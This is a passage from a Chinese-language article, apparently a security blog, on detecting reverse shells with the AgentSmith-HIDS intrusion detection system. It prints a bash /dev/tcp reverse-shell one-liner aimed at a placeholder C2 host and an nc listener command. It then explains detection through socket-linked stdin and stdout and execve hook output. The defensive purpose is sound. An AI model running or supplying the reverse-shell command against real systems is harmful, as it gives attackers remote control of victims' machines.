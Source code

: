 需要注意的是，这个信息可能会被干扰，由于性能的考虑，我不能提取全部的socket信息，也没办法遍历每一个进程的全部fd，这些都会成为潜在的限制条件。



#### 3.最简单的反弹shell

最简单的反弹shell莫过于`bash -i`了，其使用方式如下：

```bash
bash -i >& /dev/tcp/c2_ip/c2_port 0>&1
```

其中`-i`这个参数表示的是产生交互式的shell，然后用TCP的接管shell的输入和输出，就可以实现反弹shell，控制端只需要在这之前使用：

```bash
nc -l port
```

就可以监听指定端口，等待shell乖乖登门造访了。

![2](2.png)

面对这种最基础的反弹shell，业界的检测思路都非常的统一，即如果存在bash进程的stdin/stdout(标准输入/标准输出)是指向某个socket连接，那么我们就认为该bash极有可能是反弹shell行为。

通常我们查看一个进程的stdin/out可以在`/proc/pid/fd`下面查看，默认0是stdin，1是stdout，2是stderr。

![3](3.png)

这种的检测在AgentSmith-HIDS上非常简单，我们利用execve hook获取的数据即可发现：

```json
{
    "uid":"0",
    "data_type":"59",
    "run_path":"/usr/bin/bash",
    "exe":"/usr/bin/bash",
    "argv":"bash -i ",
    "pid":"6364",
    "ppid":"2549",
    "pgid":"6364",
    "tgid":"6364",
    "comm":"bash",
    "nodename":"test",
    "stdin":"socket:[80649]",
    "stdout":"socket:[80649]",
    "sessionid":"3",
    "dip":"127.0.0.1",
```